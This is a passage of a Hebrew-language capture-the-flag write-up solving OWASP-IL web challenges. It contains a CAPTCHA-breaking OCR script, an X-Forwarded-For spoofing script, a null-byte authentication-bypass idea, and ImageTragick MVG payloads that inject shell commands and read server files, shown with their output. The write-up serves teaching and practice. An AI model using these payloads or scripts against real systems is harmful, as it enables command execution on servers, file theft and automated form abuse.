    if(a.charCodeAt(0x0)=="79"&&a.charCodeAt(0x1)=="87"&&a.charCodeAt(0x2)=="65"&&a.charCodeAt(0x3)=="83"&&a.charCodeAt(0x4)=="80"&&a.charCodeAt(0x5)=="45"&&a.charCodeAt(0x6)=="73"&&a.charCodeAt(0x7)=="76"&&a.charCodeAt(0x8)=="123"&&a.charCodeAt(0x9)=="74"&&a.charCodeAt(0xa)=="52"&&a.charCodeAt(0xb)=="118"&&a.charCodeAt(0xc)=="52"&&a.charCodeAt(0xd)=="83"&&a.charCodeAt(0xe)=="99"&&a.charCodeAt(0xf)=="114"&&a.charCodeAt(0x10)=="49"&&a.charCodeAt(0x11)=="112"&&a.charCodeAt(0x12)=="116"&&a.charCodeAt(0x13)=="78"&&a.charCodeAt(0x14)=="105"&&a.charCodeAt(0x15)=="110"&&a.charCodeAt(0x16)=="106"&&a.charCodeAt(0x17)=="52"&&a.charCodeAt(0x18)=="33"&&a.charCodeAt(0x19)=="125")
    {
        console.log("Contratz! You got the flag!\nFlag: "+a)
    }
    else
    {
        console.log("You are so wrong.. :)")
    }
}
```

<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>הלוגיקה פה מספיק
קצרה וברורה בשביל שיהיה קל לייצר קוד ידני שמגלה מהו הדגל, למשל:</span></p>

```javascript
a = Array();
a[0x0]="79"; a[0x1]="87"; a[0x2]="65"; a[0x3]="83"; a[0x4]="80"; a[0x5]="45"; 
a[0x6]="73"; a[0x7]="76"; a[0x8]="123"; a[0x9]="74"; a[0xa]="52"; a[0xb]="118"; 
a[0xc]="52"; a[0xd]="83"; a[0xe]="99"; a[0xf]="114"; a[0x10]="49"; a[0x11]="112"; 
a[0x12]="116"; a[0x13]="78"; a[0x14]="105"; a[0x15]="110"; a[0x16]="106"; 
a[0x17]="52"; a[0x18]="33"; a[0x19]="125";
s = "";
for (var i in a) {
    s += String.fromCharCode(a[i]);
}
console.log(s);
```

<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>הדגל הוא:</span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span class=objectbox><b><span lang=en-IL dir=LTR>OWASP-IL{J4v4Scr1ptNinj4!}</span></b></span></p>
<span class=objectbox><b><span lang=en-IL style='font-size:11.0pt;line-height:
107%;font-family:"Calibri",sans-serif'><br clear=all style='page-break-before:
always'>
</span></b></span>
<p class=MsoNormal><span class=objectbox><b><span lang=en-IL>&nbsp;</span></b></span></p>
<h2 dir=RTL style='text-align:right;direction:rtl;unicode-bidi:embed'><span
lang=HE style='font-family:"Times New Roman",serif'>אתגר 5 - </span><span
lang=EN-US dir=LTR>Break The Captcha</span><span dir=RTL></span><span lang=HE
style='font-family:"Times New Roman",serif'><span dir=RTL></span> (רמת קושי
קלה, 250 נקודות)</span></h2>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>&nbsp;</span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>הוראות האתגר:</span></p>
<p><span lang=en-IL>My website is protected with Captcha so you cant flood my
forms!<br>
Do you think that you can bypass it with code and flood my form?</span></p>
<p><span lang=en-IL>URL: <span class=MsoHyperlink><b><a
href="http://challenges.owaspil.ctf.today:8088/">http://challenges.owaspil.ctf.today:8088/</a></b></span></span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>פתרון:</span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>האתר עצמו נראה כך:</span></p>
<p class=MsoNormal align=center dir=RTL style='text-align:center;direction:
rtl;unicode-bidi:embed'><span lang=en-IL dir=LTR></span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>עבור הפתרון השתמשתי
ב-</span><span dir=LTR></span><span lang=HE dir=LTR><span dir=LTR></span> </span><span
lang=en-IL dir=LTR>Tesseract</span><span dir=RTL></span><span lang=en-IL
style='font-family:"Arial",sans-serif'><span dir=RTL></span> </span><span
lang=HE style='font-family:"Arial",sans-serif'>– ספריה לביצוע </span><span
lang=en-IL dir=LTR>OCR</span><span dir=RTL></span><span lang=HE
style='font-family:"Arial",sans-serif'><span dir=RTL></span>. </span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>ה-</span><span
lang=EN-US dir=LTR>captcha</span><span dir=RTL></span><span lang=HE
style='font-family:"Arial",sans-serif'><span dir=RTL></span> שהאתר השתמש בו היה
פשוט ביותר, ללא רעש או הפרעות בתמונה, וספריית </span><span lang=EN-US dir=LTR>Tesseract</span><span
dir=RTL></span><span lang=HE style='font-family:"Arial",sans-serif'><span
dir=RTL></span> התמודדה איתו בצורה טובה יחסית. מדי פעם הספרייה הייתה מפספסת,
אבל אפשר היה להמשיך לנסות את התמונה הבאה (הדרישה הייתה לפענח 15 תמונות בחצי
דקה, אך לא הייתה דרישה לרצף פענוחים כלשהו).</span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>הקוד:</span></p>

```python
from PIL import Image
import pytesseract
import requests
 
CAPTCHA_BASE_URL = 'http://challenges.owaspil.ctf.today:8088'
with requests.Session() as s:
    for i in range(45):
           print ("-" * 15)
           print (i)
           url = CAPTCHA_BASE_URL + '/captcha.php'
           response = s.get(url, stream=True)
          
           guess = pytesseract.image_to_string(Image.open(response.raw))
           print (guess)
          
           payload = {'captcha': guess, "submit": ""}
           response = s.post(CAPTCHA_BASE_URL, data=payload)
           if "flag" in response.text:
                print (response.text)
                break
```

<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>הדגל:</span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><b><span lang=EN-US dir=LTR>OWASP-IL{YouAreTheCaptchaMaster!}</span></b><span
dir=RTL></span><b><span lang=EN-US style='font-family:"Arial",sans-serif'><span
dir=RTL></span> </span></b></p>
<b><span lang=HE dir=RTL style='font-size:11.0pt;line-height:107%;font-family:
"Arial",sans-serif'><br clear=all style='page-break-before:always'>
</span></b>
<p class=MsoNormal><b><span lang=HE dir=RTL style='font-family:"Arial",sans-serif'>&nbsp;</span></b></p>
<h2 dir=RTL style='text-align:right;direction:rtl;unicode-bidi:embed'><span
lang=HE style='font-family:"Times New Roman",serif'>אתגר 6 - </span><span
lang=EN-US dir=LTR>Around the world</span><span dir=RTL></span><span lang=HE
style='font-family:"Times New Roman",serif'><span dir=RTL></span> (רמת קושי
קלה, 300 נקודות)</span></h2>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>&nbsp;</span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>הוראות האתגר:</span></p>
<p><span lang=en-IL>Hi you! Do you think that you traveled the world? Your
mission is to enter to our site with IP that belongs to country that we request
you</span></p>
<p><span lang=en-IL>Can you do that? (XFF is approved)</span></p>
<p><span lang=en-IL>URL: <span class=MsoHyperlink><b><a
href="http://challenges.owaspil.ctf.today:8094/">http://challenges.owaspil.ctf.today:8094/</a></b></span></span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>פתרון:</span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>כניסה לאתר מציגה את
ההודעה הבאה:</span></p>
<p class=MsoNormal><span lang=en-IL>In order to get the flag you must to serve
from Argentina (You served from Israel)| Counter: 0\16</span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>האתגר אומר בפירוש
ש-</span><span lang=EN-US dir=LTR>XFF</span><span dir=RTL></span><span lang=HE
style='font-family:"Arial",sans-serif'><span dir=RTL></span> מותר, לכן כמובן
נשתמש ב-</span><span lang=EN-US dir=LTR>X-Forwarded-For</span><span dir=RTL></span><span
lang=HE style='font-family:"Arial",sans-serif'><span dir=RTL></span> (זהו שדה
בכותרת של </span><span lang=EN-US dir=LTR>HTTP</span><span dir=RTL></span><span
lang=HE style='font-family:"Arial",sans-serif'><span dir=RTL></span> שמשמש
לזיהוי כתובת ה-</span><span lang=EN-US dir=LTR>IP</span><span dir=RTL></span><span
lang=HE style='font-family:"Arial",sans-serif'><span dir=RTL></span> המקורית של
הלקוח במידה והוא משתמש בפרוקסי. כמובן שאין מניעה להשתמש בשדה הזה גם אם לא
נמצאים מאחורי פרוקסי, או אפילו להשתמש בכתובת של פרוקסי כפי שנעשה פה).</span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>ראשית צריך למצוא
רשימת פרוקסים ממדינות שונות.</span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>הרשימה שמצאתי הייתה
בנויה בפורמט הבא:</span></p>

```
201.20.99.10:3130     Brazil
90.161.42.152:40057   Spain
92.38.45.57:42273     Russia
```

<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>&nbsp;</span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>הקוד בסך הכל צריך
לחפש פרוקסי מתאים לפי הדרישה של האתר, ולכלול אותו ב-</span><span lang=EN-US
dir=LTR>Header</span><span dir=RTL></span><span lang=HE style='font-family:
"Arial",sans-serif'><span dir=RTL></span> של בקשת ה-</span><span lang=EN-US
dir=LTR>HTTP</span><span dir=RTL></span><span lang=HE style='font-family:"Arial",sans-serif'><span
dir=RTL></span>.</span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>הקוד:</span></p>

```python
import requests, re
 
ip_table = {}
with open("proxy.txt") as f:
    for line in f:
        line = line.rstrip()
        ip, country = line.split("\t")
        ip_table[country.lower()] = ip.split(":")[0]
 
s = requests.Session()
 
country_regex = re.compile("In order to get the flag you must to serve from ([^(]+) \(")
url = 'http://challenges.owaspil.ctf.today:8094/'
headers = None
text = ""
while "OWASP" not in text:
    r = s.get(url, headers = headers)
    print (r.text)
    text = r.text
    match = country_regex.search(r.text)
    if match:
        country = match.group(1).lower()
        headers = {'X-Forwarded-For': ip_table[country]}
    else:
        print("No match for {}!".format(r.text))
        break
 
```

<p class=MsoNormal style='margin-bottom:0cm;margin-bottom:.0001pt'><span
lang=EN-US style='font-size:10.0pt;line-height:107%;font-family:"Courier New"'>&nbsp;</span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>הדגל:</span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><b><span lang=EN-US dir=LTR>OWASP-IL{Wh0RuNTh3World?}</span></b></p>
<b><span lang=EN-US style='font-size:11.0pt;line-height:107%;font-family:"Calibri",sans-serif'><br
clear=all style='page-break-before:always'>
</span></b>
<p class=MsoNormal><b><span lang=EN-US>&nbsp;</span></b></p>
<h2 dir=RTL style='text-align:right;direction:rtl;unicode-bidi:embed'><span
lang=HE style='font-family:"Times New Roman",serif'>אתגר 7 </span><span
lang=HE style='font-family:"Arial",sans-serif'>–</span><span lang=HE
style='font-family:"Times New Roman",serif'> </span><span lang=EN-US dir=LTR>LazyAdmin</span><span
dir=RTL></span><span lang=HE style='font-family:"Times New Roman",serif'><span
dir=RTL></span> (רמת קושי בינונית, 350 נקודות)</span></h2>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>&nbsp;</span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>הוראות האתגר:</span></p>
<p><span lang=en-IL>Do you think that you can login with administrator
privileges in order to retrieve the flag? :)</span></p>
<p><span lang=en-IL>user:password</span></p>
<p><span lang=en-IL>URL: <span class=MsoHyperlink><b><a
href="http://challenges.owaspil.ctf.today:8084/">http://challenges.owaspil.ctf.today:8084/</a></b></span></span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>פתרון:</span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>ובכן, התשובה היא
שלא... או במילים אחרות, את האתגר הזה לא הצלחתי לפתור. </span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>בכל זאת, אתן כיוון
מסוים שנראה לי הגיוני.</span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>האתר עצמו מכיל טופס
כניסה:</span></p>
<p class=MsoNormal align=center dir=RTL style='text-align:center;direction:
rtl;unicode-bidi:embed'><span lang=en-IL dir=LTR></span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>כניסה עם שם המשתמש
והסיסמא שסופקו מביאה אותנו אל הדף הבא:</span></p>
<p class=MsoNormal><span lang=en-IL>Only administrators can see the flag!</span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>כאמור, לא מצאתי
חולשה באתר, למרות שהכיוון שהגעתי אליו נראה לי הגיוני.</span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>ה-</span><span
lang=EN-US dir=LTR>Headers</span><span dir=RTL></span><span lang=HE
style='font-family:"Arial",sans-serif'><span dir=RTL></span> שחוזרים מהשרת עבור
כל בקשה כוללים את המידע הבא:</span></p>
<p class=MsoNormal align=center dir=RTL style='text-align:center;direction:
rtl;unicode-bidi:embed'><span lang=en-IL dir=LTR></span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>באופן כללי, זה נחשב
בתור רעיון רע, כי אפשר לקחת את הפרטים הללו ולחפש חולשות ידועות. ולמעשה, אם
מחפשים את הגרסה הזו של </span><span lang=EN-US dir=LTR>AspNet</span><span
dir=RTL></span><span lang=HE style='font-family:"Arial",sans-serif'><span
dir=RTL></span>, מגיעים ל</span><span class=MsoHyperlink><span lang=EN-US><a
href="https://packetstormsecurity.com/files/111277/Microsoft-ASP.NET-Forms-Authentication-Bypass.html"><span
lang=HE style='font-family:"Arial",sans-serif'>חולשה אחת בולטת של </span><span
dir=LTR>Authentication Bypass</span></a></span></span><span dir=RTL></span><span
lang=HE style='font-family:"Arial",sans-serif'><span dir=RTL></span>!</span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>על רגל אחת, הרעיון
הוא שאם שולחים שם משתמש עם תו </span><span lang=EN-US dir=LTR>Null</span><span
dir=RTL></span><span lang=HE style='font-family:"Arial",sans-serif'><span
dir=RTL></span> באמצע, למשל </span><span dir=LTR></span><span lang=EN-US
dir=LTR><span dir=LTR></span>“Admin\0AAA”</span><span dir=RTL></span><span
lang=HE style='font-family:"Arial",sans-serif'><span dir=RTL></span>, עקב
החולשה יכול להווצר מצב שבו המערכת טועה ומאמתת את המשתמש בתור שם המשתמש שלפני ה-</span><span
lang=EN-US dir=LTR>Null</span><span dir=RTL></span><span lang=HE
style='font-family:"Arial",sans-serif'><span dir=RTL></span>, כלומר </span><span
lang=EN-US dir=LTR>Admin</span><span dir=RTL></span><span lang=HE
style='font-family:"Arial",sans-serif'><span dir=RTL></span>.</span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>למרבה הצער, לא
הצלחתי לנצל את החולשה הזו (ולמעשה, בדף החולשה מתוארים כמה תנאים נוספים שיש
לעמוד בהם, כמו למשל היכולת להירשם לאתר עם שם משתמש בשליטת התוקף). או שאולי פשוט
לא הצלחתי לשלוח תו </span><span lang=EN-US dir=LTR>Null</span><span dir=RTL></span><span
lang=HE style='font-family:"Arial",sans-serif'><span dir=RTL></span> כמו שצריך.
יהיה מעניין לראות זה היה הכיוון הנכון.</span></p>
<span lang=HE dir=RTL style='font-size:11.0pt;line-height:107%;font-family:
"Arial",sans-serif'><br clear=all style='page-break-before:always'>
</span>
<p class=MsoNormal><span lang=HE dir=RTL style='font-size:13.0pt;line-height:
107%;font-family:"Times New Roman",serif;color:#2F5496'>&nbsp;</span></p>
<h2 dir=RTL style='text-align:right;direction:rtl;unicode-bidi:embed'><span
lang=HE style='font-family:"Times New Roman",serif'>אתגר 8 - </span><span
lang=EN-US dir=LTR>Image converter</span><span dir=RTL></span><span lang=HE
style='font-family:"Times New Roman",serif'><span dir=RTL></span> (רמת קושי
בינונית, 350 נקודות)</span></h2>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>&nbsp;</span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>הוראות האתגר:</span></p>
<p><span lang=en-IL>My magical tool can help you to convert pictures to PNG!</span></p>
<p><span lang=en-IL>URL: <span class=MsoHyperlink><b><a
href="http://challenges.owaspil.ctf.today:8090/">http://challenges.owaspil.ctf.today:8090/</a></b></span></span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>&nbsp;</span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>פתרון:</span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>כניסה לאתר מציגה את
הממשק הבא להמרת תמונות:</span></p>
<p class=MsoNormal align=center dir=RTL style='text-align:center;direction:
rtl;unicode-bidi:embed'><span lang=en-IL dir=LTR></span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>הוראות האתגר והממשק
מקפידים לדבר על &quot;קסם&quot;, רמז ברור ל-</span><span dir=LTR></span><span
lang=HE dir=LTR><span dir=LTR></span> </span><span lang=EN-US dir=LTR>I</span><span
lang=en-IL dir=LTR>mage</span><span lang=EN-US dir=LTR>M</span><span
lang=en-IL dir=LTR>agick</span><span dir=RTL></span><span lang=HE
style='font-family:"Arial",sans-serif'><span dir=RTL></span>(כלי יחסית סטנדרטי
להמרת ועריכת תמונות).</span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>לכן, התחלתי לחפש
בגוגל חולשות של כלי הזה, והגעתי מיד למשפחת חולשות בשם </span><span
class=MsoHyperlink><span lang=EN-US><a href="https://imagetragick.com/"><span
dir=LTR>ImageTragick</span></a></span></span><span dir=RTL></span><span
lang=HE style='font-family:"Arial",sans-serif'><span dir=RTL></span>.</span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>החולשות המתוארות
בדף ההוא מאפשרות בין השאר להריץ קוד ולקרוא קבצים, בדיוק מה שאנחנו צריכים.</span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>מתוך הדף:</span></p>
<p class=MsoQuote><span lang=en-IL>The most dangerous part is ImageMagick
supports several formats like svg, mvg (thanks to </span><span lang=en-IL
style='font-style:normal'>Stewie</span><span lang=en-IL> for his research of
this file format and idea of the local file read vulnerability in ImageMagick,
see below), maybe some others - which allow to include external files from any
supported protocol including delegates.</span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>למזלנו, אחד
הפורמטים שהאתר שלנו תומך בו הוא </span><span lang=en-IL dir=LTR>MVG</span><span
dir=RTL></span><span lang=HE style='font-family:"Arial",sans-serif'><span
dir=RTL></span>!</span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>נייצר קובץ </span><span
lang=EN-US dir=LTR>MVG</span><span dir=RTL></span><span lang=HE
style='font-family:"Arial",sans-serif'><span dir=RTL></span> זדוני לפי ההוראות,
ונעלה לאתר:</span></p>

```svg
push graphic-context
viewbox 0 0 640 480
fill 'url(https://example.com/image.jpg"|ls -la>/tmp/e1.txt;")'
pop graphic-context
```

<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>&nbsp;</span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>האתר מסכים לקבל את
הקובץ הזה, ומציע להוריד חזרה את התוצאה בכתובת </span><span class=MsoHyperlink><span
lang=EN-US><a
href="http://challenges.owaspil.ctf.today:8090/uploads/tmpdmalOL.png"><span
dir=LTR>http://challenges.owaspil.ctf.today:8090/uploads/tmpdmalOL.png</span></a></span></span><span
dir=RTL></span><span lang=HE style='font-family:"Arial",sans-serif'><span
dir=RTL></span>.</span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>מדובר בקובץ תמונה
ריק (תמונה לבנה). למרבה המזל, אם ננסה לגשת ל-</span><span lang=EN-US dir=LTR>e1.txt</span><span
dir=RTL></span><span lang=EN-US style='font-family:"Arial",sans-serif'><span
dir=RTL></span> </span><span lang=HE style='font-family:"Arial",sans-serif'>(שיצרנו
באמצעות החולשה) מתוך תיקיית </span><span lang=EN-US dir=LTR>uploads</span><span
dir=RTL></span><span lang=HE style='font-family:"Arial",sans-serif'><span
dir=RTL></span>, נקבל את התוכן שרצינו:</span></p>

```
total 20
dr-xr-xr-x 1 root root 4096 Aug 29 13:52 .
drwxr-xr-x 1 root root 4096 Aug 29 13:52 ..
-r-xr-xr-x 1 root root 3663 Aug 27 10:40 app.py
-r-xr-xr-x 1 root root   14 Aug 27 10:40 requirements.txt
dr-xr-xr-x 1 root root 4096 Aug 29 13:52 templates
```

<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>&nbsp;</span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>כעת ניתן לקרוא את
הקובץ </span><span lang=EN-US dir=LTR>app.py</span><span dir=RTL></span><span
lang=HE style='font-family:"Arial",sans-serif'><span dir=RTL></span>, למשל, </span><span
lang=HE style='font-family:"Arial",sans-serif'>בעזרת פקודה אחרת:</span></p>

```svg
push graphic-context
viewbox 0 0 640 480
image over 0,0 0,0 'label:@app.py'
pop graphic-context
```

<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>&nbsp;</span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>התוצאה:</span></p>
<p class=MsoNormal align=center dir=RTL style='text-align:center;direction:
rtl;unicode-bidi:embed'><span lang=en-IL dir=LTR></span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>&nbsp;</span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>(זוהי לא תמונת מסך,
אלא התמונה עצמה שנוצרה מתהליך ההמרה! הטקסט מוטמע בתמונה על ידי השרת. בפועל,
התמונה קטנה מדי בשביל להכיל את כל הקוד של </span><span lang=EN-US dir=LTR>app.py</span><span
dir=RTL></span><span lang=HE style='font-family:"Arial",sans-serif'><span
dir=RTL></span>, ולכן אפשר להשתמש בשיטה הראשונה כדי לקבל את הקוד כולו כקובץ
טקסט. אולם, הדגל לא נמצא שם).</span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>כעת ננסה לסייר בעץ
התיקיות באמצעות הפקודה הבאה:</span></p>

```svg
push graphic-context
viewbox 0 0 640 480
fill 'url(https://example.com/image.jpg"|ls -alR />/tmp/e2.txt;")'
pop graphic-context
```

<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>&nbsp;</span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>התוצאה היא מבנה
התיקיות השלם של השרת. </span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>&nbsp;</span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>למשל:</span></p>

```
/:
total 1208
drwxr-xr-x   1 root root    4096 Aug 29 13:52 .
drwxr-xr-x   1 root root    4096 Aug 29 13:52 ..
-rwxr-xr-x   1 root root       0 Aug 29 13:52 .dockerenv
dr-xr-xr-x   1 root root    4096 Aug 29 13:52 app
drwxr-xr-x   1 root root    4096 Aug 29 13:45 bin
drwxr-xr-x   2 root root    4096 Jun 26 12:03 boot
drwxr-xr-x   5 root root     340 Sep  4 18:54 dev
drwxr-xr-x   1 root root    4096 Aug 29 13:52 etc
-r-xr-xr-x   1 root root      23 Aug 29 12:17 flag.txt
drwxr-xr-x   1 root root    4096 Aug 29 13:52 home
drwxr-xr-x   1 root root    4096 Aug 29 13:45 lib
drwxr-xr-x   2 root root    4096 Jul 16 00:00 lib64
drwxr-xr-x   2 root root    4096 Jul 16 00:00 media
drwxr-xr-x   2 root root    4096 Jul 16 00:00 mnt
drwxr-xr-x   2 root root    4096 Jul 16 00:00 opt
dr-xr-xr-x 305 root root       0 Sep  4 18:54 proc
drwx------   1 root root    4096 Aug 29 13:52 root
drwxr-xr-x   3 root root    4096 Jul 16 00:00 run
drwxr-xr-x   2 root root    4096 Jul 16 00:00 sbin
drwxr-xr-x   2 root root    4096 Jul 16 00:00 srv
dr-xr-xr-x  13 root root       0 Sep  5 07:14 sys
drwxrwxrwt   1 root root 1155072 Sep 24 07:59 tmp
drwxr-xr-x   1 root root    4096 Jul 16 00:00 usr
drwxr-xr-x   1 root root    4096 Jul 16 00:00 var
 
/app:
total 20
dr-xr-xr-x 1 root root 4096 Aug 29 13:52 .
drwxr-xr-x 1 root root 4096 Aug 29 13:52 ..
-r-xr-xr-x 1 root root 3663 Aug 27 10:40 app.py
-r-xr-xr-x 1 root root   14 Aug 27 10:40 requirements.txt
dr-xr-xr-x 1 root root 4096 Aug 29 13:52 templates
```

<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=en-IL dir=LTR>&nbsp;</span></p>
